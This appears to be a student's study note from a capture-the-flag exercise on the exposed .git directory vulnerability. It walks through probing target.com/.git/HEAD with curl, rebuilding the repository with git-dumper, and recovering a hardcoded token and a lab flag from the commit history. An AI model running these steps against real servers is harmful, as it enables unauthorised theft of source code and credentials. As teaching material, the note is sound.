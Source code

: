 # 03.git-exposed-attack

04/05/25

## **Recall**

- What is Git?
- What is Git exposed?
- How to test for Git exposed?
- How to gain access to source code?

## **Notes**

### What it is

**Git** is a widely used version control system for managing source code. During development, the `.git/` directory stores the **entire history** of the repository, including previous versions, commit messages, branches, and potentially sensitive data such as credentials or API keys.

**Git exposed** occurs when the `.git/` directory is **accessible in a production environment**, allowing attackers to reconstruct the repository and gain access to sensitive information such as the source code, credentials, or even third-party service connections.

### How to identify it

You can test for Git exposure by manually sending requests to `.git/` and checking for accessible files:

```bash
curl http://target.com/.git            # 301 Moved Permanently
curl http://target.com/.git/HEAD       # ref: refs/heads/master
```

If responses return `200 OK` and the content matches expected Git metadata, the repository is likely exposed and exploitable.

### How to exploit it

To exploit a Git exposed vulnerability, an attacker downloads all available `.git/` files and reconstructs the repository locally. Tools like **git-dumper** automate this process:

```bash
git-dumper http://target.com/ git-exposed
```

Example output:

```bash
[-] Testing http://target.com/.git/HEAD [200]
[-] Testing http://target.com/.git/ [403]
[-] Fetching common files
[-] Fetching http://target.com/.git/COMMIT_EDITMSG [200]
[-] Fetching http://target.com/.gitignore [200]
[-] Fetching http://target.com/.git/description [200]
[-] http://target.com/.gitignore responded with HTML
[...]
```

With the local repository rebuilt, the attacker gains full access to the source code and commit history:

```bash
cat git-exposed/index.php
```

```php
<?php 
	if(isset($_GET['token']) and !empty($_GET['token'])){
	    if($_GET['token'] == "Sup3rAdm1nT0k3n"){
	        echo "Get the flag: [REDACTED]";
	    }else{
	        echo "Token errado :p";   
	    }
	}
?>

<br>

<center>
	<form action="/" method="get" style="width: 70%">
	
	    <input type="text" name="token" placeholder="Digite o token de acesso">
	    <br>
	    <br>
	    <input type="submit" value="Enviar token de acesso">
	</form>
</center>
```

Accessing commit logs and changes:

```bash
git log
```

```bash
commit 7eb5abd9b86eae8e1cf2c808ebb3220286374337 (HEAD -> master)
Author: ... <...>
Date:   Fri Sep 3 12:11:08 2021 -0300

    Removendo flag
```

Accessing commit changes

```bash
git show 7eb5abd9b86eae8e1cf2c808ebb3220286374337
```

```bash

-   echo "Get the flag: CS{G1t_3Xp0s3d_4tt4ck}";
+   echo "Get the flag: [REDACTED]";
```

## **Summary**

Git exposed is a vulnerability caused by misconfigured deployments where the `.git/` directory, meant for version control during development, is left accessible on a production server. This exposure allows attackers to retrieve the entire contents of the Git repository, including source code, secrets, and commit history. By reconstructing the repository locally, an attacker can compromise the integrity and confidentiality of the application and potentially any external services it communicates with. The root of this issue lies in the unintentional reflection of internal development artifacts to the public-facing surface of the application.